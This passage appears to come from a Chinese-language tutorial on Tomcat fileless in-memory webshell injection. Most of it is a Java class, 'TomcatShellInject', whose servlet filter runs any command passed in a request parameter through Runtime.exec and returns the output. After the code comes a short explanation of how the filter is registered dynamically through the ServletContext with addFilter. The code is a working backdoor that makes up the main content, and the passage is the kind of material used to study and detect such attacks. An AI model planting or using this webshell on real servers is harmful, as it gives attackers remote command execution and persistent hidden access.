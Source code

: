 ```java
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
                         FilterChain filterChain) throws IOException, ServletException {
        System.out.println(
                "TomcatShellInject doFilter.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```
### 简单分析
首先将第一步中存入的 request 进行取出
在下面这个静态方法中就是获取对应的ServletContext，当然需要配合第一步的已经修改WRAP_SAME_OBJECT 值为 true

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_42_YlpBuXQH.png)

在利用取出的 request 获取到 servletContext 后，就会调用 addFilter 来动态添加

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_43_J8lFL0YE.png)
